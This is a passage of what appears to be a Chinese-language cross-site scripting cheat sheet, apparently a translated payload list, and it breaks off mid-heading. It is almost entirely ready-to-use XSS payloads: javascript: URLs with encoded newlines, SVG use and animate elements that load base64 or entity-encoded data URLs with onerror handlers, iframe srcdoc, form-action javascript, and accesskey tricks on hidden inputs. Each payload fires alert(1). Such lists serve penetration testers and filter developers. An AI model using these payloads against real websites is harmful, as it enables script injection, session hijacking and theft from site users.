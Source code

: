 #### **带新行的 JavaScript 协议**

```
<a href="javascript://%0aalert(1)">XSS</a>
```

#### **使用元素和 base64 编码的数据 URL**

```
<svg><use href="data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEwMCcgaGVpZ2h0PScxMDAnPgo8aW1hZ2UgaHJlZj0iMSIgb25lcnJvcj0iYWxlcnQoMSkiIC8+Cjwvc3ZnPg==#x" /></svg>
```

#### **带有使用元素的数据 URL**

```
<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://www.w3.org/2000/svg'&gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />
```

#### **使用自动执行元素制作标签动画**

```
<svg><animate xlink:href="#x" attributeName="href" values="data:image/svg+xml,&lt;svg id='x' xmlns='http://www.w3.org/2000/svg'&gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" /><use id=x />
```

### **其他有用的属性**

#### **使用 srcdoc 属性**

```
<iframe srcdoc="<img src=1 onerror=alert(1)>"></iframe>
```

#### **对实体使用 srcdoc**

```
<iframe srcdoc="&lt;img src=1 onerror=alert(1)&gt;"></iframe>
```

#### **在页面的任何地方点击提交元素，甚至在表单之外**

```
<form action="javascript:alert(1)"><input type=submit id=x></form><label for=x>XSS</label>
```

#### **隐藏输入:访问键属性可以在通常不可利用的元素上启用 XSS**

```
<input type="hidden" accesskey="X" onclick="alert(1)"> (Press ALT+SHIFT+X on Windows) (CTRL+ALT+X on OS X)
```

#### **链接元素:访问键属性可以在通常不可利用的元素上启用 XSS**
